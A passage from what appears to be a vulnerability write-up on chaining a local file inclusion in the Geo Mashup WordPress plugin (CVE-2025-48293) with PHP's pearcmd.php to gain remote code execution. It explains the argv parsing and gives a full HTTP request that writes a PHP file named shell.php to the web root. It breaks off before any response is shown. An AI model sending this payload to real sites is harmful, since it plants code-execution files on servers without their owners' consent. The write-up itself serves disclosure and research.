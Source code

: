 2. The web app `include`s `/usr/local/lib/php/pearcmd.php`.

3. PHP (with register_argc_argv=On) builds `$_SERVER['argv']` from the query → `['action=geo_mashup_query&object_ids=2&template=../../../../../../../usr/local/lib/php/pearcmd&','config-create','/test_root_path','test_filename.php']`.

4. `Console_Getopt::readPHPArgv()` returns `$argv`; `Console_Getopt::getopt2()` parses and yields `$command='config-create'` and `list($tmpopt, $params)` gives `$params=['/test_root_path','test_filename.php']`.

5. `doConfigCreate()` runs with `$params` controlled by the attacker → `touch()`/`realpath()` and `writeConfigFile()` create/write the file.

> [!INFO]
> The created config file contains the `root path` value. If this value is written as a valid PHP tag (`<?php ... ?>`) and the file is accessible by the client, the webserver will process the PHP content in that file and the code will be executed, leading to **RCE**.

## Exploit

Leveraging [CVE-2025-48293](https://w41bu1.github.io/2025-10-13-cve-2025-48293/) analyzed earlier to expand into an exploit via `pearcmd.php`

Send a request with an LFI payload pointing to `pearcmd.php`:

```http
GET /wp-admin/admin-ajax.php?action=geo_mashup_query&object_ids=2&template=../../../../../../../usr/local/lib/php/pearcmd&+config-create+/<?=phpinfo();?>+/var/www/html/shell.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost/wp-admin/
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-PwnFox-Color: blue
Priority: u=0, i
```

**Successful response returned**:
